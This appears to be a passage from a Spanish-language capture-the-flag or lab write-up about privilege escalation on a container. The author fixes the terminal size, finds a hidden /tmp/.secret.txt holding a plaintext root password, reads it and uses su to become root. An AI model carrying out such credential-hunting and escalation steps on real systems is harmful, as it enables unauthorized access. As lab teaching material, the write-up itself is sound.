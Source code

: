En la máquina hay 24 filas y 80 columnas, pero en mi kali son 63 filas y 281 columnas. Las modifico para que tengan el mismo espacio.

```shell
www-data@bf6660af2dc2:/var/www/html$ stty rows 63 columns 281
```

Antes no había encontrado nada en /tmp, pero ahora pruebo con `ls -la` y veo que hay un fichero oculto llamado "secret.txt". Leo su contenido y parece ser la password del usuario root.

```shell
www-data@bf6660af2dc2:/$ cat /tmp/.secret.txt
contraseñaderoot123
```

Usando su contraseña, consigo ser root.

```shell
www-data@bf6660af2dc2:/$ su   
Password: 
root@bf6660af2dc2:/# whoami
root
```

